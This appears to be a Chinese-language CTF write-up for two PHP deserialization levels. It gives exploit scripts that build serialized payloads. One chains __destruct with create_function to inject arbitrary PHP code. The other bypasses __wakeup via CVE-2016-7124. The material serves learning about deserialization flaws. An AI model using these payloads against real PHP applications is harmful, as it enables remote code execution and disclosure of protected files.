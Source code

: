 

**level4 create_fucntion与可变函数调用**

注意：两个类实例化调用属性的顺序。

```php
<?php
highlight_file(__FILE__);
class func
{
    public $key;
    public function __destruct()
    {
        unserialize($this->key)();
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function get_flag(){
        $a=$this->action;
        $a('', $this->code);
    }
}
$a1=new func();
$b=new GetFlag();
$b->code='}include("flag.php");echo $flag;//';
$b->action="create_function";
$a1->key=serialize(array($b,"get_flag"));
echo serialize($a1);
?>
```

**level5 序列化格式过滤与CVE-2016-7124**

```php
<?php
class secret{
    var $file='index.php';

    public function __construct($file){
        $this->file=$file;
        echo $flag;
    }

    function __destruct(){
        include_once($this->file);
    }

    function __wakeup(){
        $this->file='index.php';
    }
}
$pa=new secret('flag.php');
echo serialize($pa),"\n";//O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
$cmd=urlencode('O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}');
echo $cmd;
?>
```
